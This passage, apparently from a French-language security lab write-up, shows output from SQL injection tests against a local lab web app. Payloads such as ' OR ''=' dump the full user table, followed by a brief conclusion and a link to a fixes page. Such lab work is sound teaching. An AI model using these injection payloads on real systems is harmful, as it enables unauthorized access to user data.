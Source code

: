 ```bash
ID: 1 - Username: admin<br>ID: 2 - Username: user<br>ID: 3 - Username: admin<br>ID: 4 - Username: user<br>ID: 5 - Username: admin<br>ID: 6 - Username: user<br>ID: 7 - Username: admin<br>ID: 8 - Username: user<br>ID: 9 - Username: admin<br>ID: 10 - Username: user<br>ID: 11 - Username: admin<br>ID: 12 - Username: user<br>

[+] Test du payload : admin' OR 'a'='a' --
[+] URL : http://192.168.160.130:8083/index.php?username=admin%27%20OR%20%27a%27%3D%27a%27%20--
[-] Aucun résultat visible.

[+] Test du payload : ' OR ''='
[+] URL : http://192.168.160.130:8083/index.php?username=%27%20OR%20%27%27%3D%27
ID: 1 - Username: admin<br>ID: 2 - Username: user<br>ID: 3 - Username: admin<br>ID: 4 - Username: user<br>ID: 5 - Username: admin<br>ID: 6 - Username: user<br>ID: 7 - Username: admin<br>ID: 8 - Username: user<br>ID: 9 - Username: admin<br>ID: 10 - Username: user<br>ID: 11 - Username: admin<br>ID: 12 - Username: user<br>

[*] Fini.

```

Ce qu'il faut retenir ! 
L'attaque 1 = 1 always true à réussie et à affichée tous les utilisateurs 
L'attaque ' OR ''=' sur le même principe, à savoir always trues à réussie


[Maintenant correction des problèmes](fix.md)